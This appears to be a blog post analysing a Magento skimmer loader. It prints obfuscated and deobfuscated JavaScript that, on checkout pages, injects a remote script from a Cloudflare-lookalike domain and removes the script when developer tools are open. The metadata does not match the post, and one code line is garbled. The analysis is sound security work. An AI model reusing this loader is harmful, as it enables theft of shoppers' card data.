 ```yaml
---
layout: post
title: "Analyzing Magento skimmer"
categories: [Bot]
tags: [Javascript, ExpressJS]
description: In this blog post, we show how to create a simple ExpressJS middleware to detect bots.
---
```


According to this tweet the skimmer loader was available on facelook.no/en_US/pixel.js

<img src="/assets/media/tweet_skimmer.png"> 

We obtain a (slightly) obfuscated file with the following content:
```javascript
var a0a=['loud','lize','oudf','/wid','item','e-st','//aj','.com','lare','ckou','scri','ntBy','bute','/cdn','atic','|one','chec','appe','este','rHei','ndCh','setA','ntsB','head','clou','eche','emen','kout','/scr','leme','rWid','bug','Fire','flar','5d/c','-cgi','chro','loca','/103','epag','cart','onep','src','step','getE','isIn','itia','teEl','crea','test','ttri','yTag','rHTM','|fir','age|','ght','49f5','ipts','t|on','get.','pche','ild','oute','Name','inne','axcl','tion'];(function(a,b){var c=function(d){while(--d){a['push'](a['shift']());}};c(++b);}(a0a,0x1e0));var a0b=function(a,b){a=a-0x0;var c=a0a[a];return c;};function a0c(){var a=window[a0b('0x33')+a0b('0x13')+'th']-window[a0b('0x35')+a0b('0x13')+'th']>0xa0;var b=window[a0b('0x33')+a0b('0x8')+a0b('0x2c')]-window[a0b('0x35')+a0b('0x8')+a0b('0x2c')]>0xa0;return!(b&&a||!(window[a0b('0x15')+a0b('0x14')]&&window[a0b('0x15')+a0b('0x14')][a0b('0x19')+'me']&&window[a0b('0x15')+a0b('0x14')][a0b('0x19')+'me'][a0b('0x22')+a0b('0x23')+a0b('0x39')+'d']||a||b));}if(new RegExp(a0b('0x1e')+a0b('0x2b')+a0b('0x5')+a0b('0x10')+a0b('0x4')+a0b('0x20')+a0b('0x2a')+a0b('0xe')+a0b('0x41')+a0b('0x2f')+a0b('0x7')+a0b('0x31')+a0b('0x41')+a0b('0x2f')+a0b('0x1c')+a0b('0xe')+a0b('0x41')+'t')[a0b('0x26')](window[a0b('0x1a')+a0b('0x37')])&&!new RegExp(a0b('0x1d'))[a0b('0x26')](window[a0b('0x1a')+a0b('0x37')])){var a0d=document[a0b('0x25')+a0b('0x24')+a0b('0xf')+'t'](a0b('0x42')+'pt');var a0e=a0b('0x3e')+a0b('0x36')+a0b('0x3a')+a0b('0x40')+a0b('0x3f')+a0b('0x2')+a0b('0x18')+a0b('0x11')+a0b('0x2e')+a0b('0x1b')+a0b('0x2d')+a0b('0x17')+a0b('0x38')+a0b('0x16')+a0b('0x3d')+a0b('0x3')+a0b('0x3b')+a0b('0x30')+'js';a0d[a0b('0xa')+a0b('0x27')+a0b('0x1')](a0b('0x1f'),a0e);a0d[a0b('0xa')+a0b('0x27')+a0b('0x1')]('id',a0b('0xd')+'d');document[a0b('0x21')+a0b('0x12')+a0b('0xb')+a0b('0x28')+a0b('0x34')](a0b('0xc'))[a0b('0x3c')](0x0)[a0b('0x6')+a0b('0x9')+a0b('0x32')](a0d);numInterval=setInterval(function(){if(a0c()){if(document[a0b('0x21')+a0b('0x12')+a0b('0x0')+'Id'](a0b('0xd')+'d')){document[a0b('0x21')+a0b('0x12')+a0b('0x0')+'Id'](a0b('0xd')+'d')[a0b('0x33')+a0b('0x29')+'L']='';}}},0x12c);}
```

I went on https://lelinhtinh.github.io/de4js/ that enables to easily deobfuscate JS programs depending on the obfuscator that was used to obfuscated it.
After playing with the different options, we notice it was obfuscated using <a href="https://obfuscator.io/">obfuscator.io</a>

Once deobfuscated, you obtain the following file:
```javascript
function a0c() {
    var a = window.outerWidth - window.innerWidth > 160;
    var b = window.outerHeight - window.innerHeight > 160;
    return !(b && a || !(window.Firebug && window.Firebug.chrome && window.Firebug.chrome.isInitialized || a || b));
}
if (new RegExp('onepage|checkout|onestep|firecheckout|onestepcheckout|onepagecheckout').test(window.location) && !new RegExp('cart').test(window.location)) {
    var a0d = document.createElement('script');
    var a0e = '//ajaxcloudflare.com/cdn-cgi/scripts/10349f55d/cloudflare-static/widget.js';
    a0d.setAttribute('src', a0e);
    a0d.setAttribute('id', 'cloud');
    document.getElementsByTagName('head').item 0. appendChild(a0d);
    numInterval = setInterval(function () {
        if (a0c()) {
            if (document.getElementById('cloud')) {
                document.getElementById('cloud').outerHTML = '';
            }
        }
    }, 300);
}
```

